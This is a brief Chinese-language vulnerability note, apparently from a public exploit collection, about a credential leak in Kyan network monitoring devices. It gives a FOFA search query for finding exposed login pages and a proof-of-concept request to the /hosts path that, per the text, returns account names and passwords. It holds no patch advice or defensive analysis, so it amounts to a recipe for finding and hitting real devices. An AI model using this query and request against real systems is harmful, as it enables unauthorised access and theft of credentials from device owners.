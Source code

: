 # Kyan 网络监控设备 账号密码泄漏漏洞

## 漏洞复现

FOFA: title="platform - Login"

`登录界面如下`

![](resource/Kyan-网络监控设备-账号密码泄漏漏洞/media/1.jpg)

`POC`

http://xxx.xxx/hosts

![](resource/Kyan-网络监控设备-账号密码泄漏漏洞/media/2.jpg)

成功获取账号密码
